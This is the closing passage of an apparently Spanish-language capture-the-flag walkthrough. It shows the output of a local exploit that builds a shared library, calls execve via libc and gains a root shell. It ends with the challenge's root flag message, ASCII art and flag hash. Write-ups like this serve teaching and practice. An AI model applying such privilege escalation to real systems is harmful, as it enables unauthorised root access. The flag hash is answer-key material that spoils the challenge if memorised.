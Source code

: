 Info:

```
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f9bbe0ef4f0 at 0x7f9bbd9b39b0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
# 
```

Con esto ya seriamos `root`, por lo que ahora nos iremos a leer la flag...

> root.txt (flag2)

```
Congratulations on successfully completing the challenge! I hope you enjoyed as much as i did while creating such device. 
Send me some feedback at @whitecr0wz! 


                         .'  .-.'__.-----.\
                        /    `-'(__--'
                      .'       `. _ `--._
                     /            .`--'''`
                    /           .'   
                 _.'-.         J    
                /    J         F    
              .'     F        J     
             /      /         /-.    
            /      /         /   \    
           /      /         J    |      
          /      /          /   /   
         /   /  /          J   /    
        /   /  /           /-'/
       /   / -'           /  /    
      J   / /            / .'      
      / -'-'   /        /-'        
     (/|      |        /           
      /.'   ) | _.--  /            
     //     < \/   (  |            
    //       `.\    `.`.           
   //     ___/ \ `-.  `.`. 
   - ----'      )|`.\)  `-))\-')  
                '   )     ')/

Until then!

8930fa079a510ee880fe047d40dc613e
```
